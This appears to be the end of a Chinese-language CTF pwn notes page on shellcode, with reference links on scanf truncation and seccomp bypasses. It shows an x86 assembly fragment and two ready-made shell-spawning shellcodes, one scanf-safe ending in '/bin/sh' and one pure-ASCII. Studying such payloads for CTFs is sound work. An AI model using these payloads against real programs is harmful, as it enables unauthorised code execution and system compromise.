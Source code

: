 ```x86asm
xor    ecx, ecx
int    0x80
```

#### scanf可读取
> 较长，但是可以被scanf读取
```python
b"\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh"
```

#### 纯ascii字符
```python
b"PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA"
```

# 参考资料
[CTF中常见的C语言输入函数截断属性总结](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/16/input/)
[Ubuntu 发行版本与内核对应关系](https://blog.csdn.net/FLM19990626/article/details/129154795)
[shellcode进阶之手写shellcode](https://xz.aliyun.com/t/13813)
[各种seccomp绕过](https://blog.csdn.net/qq_54218833/article/details/134205383)
